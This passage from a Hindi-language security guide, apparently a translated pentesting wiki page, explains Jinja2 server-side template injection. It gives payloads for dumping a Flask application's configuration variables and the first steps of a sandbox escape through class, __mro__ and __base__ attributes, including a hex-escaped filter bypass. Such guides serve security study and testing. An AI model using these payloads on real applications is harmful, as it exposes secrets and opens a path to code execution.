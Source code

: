 ### **सभी कॉन्फ़िगरेशन वेरिएबल्स को डंप करें**
```python
{{ config }} #In these object you can find all the configured env variables


{% raw %}
{% for key, value in config.items() %}
<dt>{{ key|e }}</dt>
<dd>{{ value|e }}</dd>
{% endfor %}
{% endraw %}




```
## **Jinja Injection**

सबसे पहले, Jinja इंजेक्शन में आपको **सैंडबॉक्स से बाहर निकलने का एक तरीका ढूंढना होगा** और नियमित पायथन निष्पादन प्रवाह तक पहुंच प्राप्त करनी होगी। ऐसा करने के लिए, आपको **वस्तुओं का दुरुपयोग करना होगा** जो **गैर-सैंडबॉक्स वातावरण से हैं लेकिन सैंडबॉक्स से सुलभ हैं**।

### Global Objects तक पहुंच

उदाहरण के लिए, कोड `render_template("hello.html", username=username, email=email)` में वस्तुएं username और email **गैर-सैंडबॉक्स पायथन वातावरण से आती हैं** और **सैंडबॉक्स वातावरण के अंदर सुलभ** होंगी।\
इसके अलावा, अन्य वस्तुएं हैं जो **हमेशा सैंडबॉक्स वातावरण से सुलभ** होंगी, ये हैं:
```
[]
''
()
dict
config
request
```
### Recovering \<class 'object'>

फिर, इन ऑब्जेक्ट्स से हमें क्लास तक पहुंचने की आवश्यकता है: **`<class 'object'>`** ताकि हम परिभाषित **क्लासेस** को **recover** करने की कोशिश कर सकें। इसका कारण यह है कि इस ऑब्जेक्ट से हम **`__subclasses__`** मेथड को कॉल कर सकते हैं और **non-sandboxed** python env से सभी क्लासेस तक पहुंच सकते हैं।

इस **ऑब्जेक्ट क्लास** तक पहुंचने के लिए, आपको **क्लास ऑब्जेक्ट** तक पहुंचने की आवश्यकता है और फिर **`__base__`**, **`__mro__()[-1]`** या `.`**`mro()[-1]`** में से किसी एक तक पहुंचें। और फिर, **इस ऑब्जेक्ट क्लास** तक पहुंचने के बाद हम **`__subclasses__()`** को **call** करते हैं।

इन उदाहरणों को देखें:
```python
# To access a class object
[].__class__
''.__class__
()["__class__"] # You can also access attributes like this
request["__class__"]
config.__class__
dict #It's already a class

# From a class to access the class "object".
## "dict" used as example from the previous list:
dict.__base__
dict["__base__"]
dict.mro()[-1]
dict.__mro__[-1]
(dict|attr("__mro__"))[-1]
(dict|attr("\x5f\x5fmro\x5f\x5f"))[-1]
```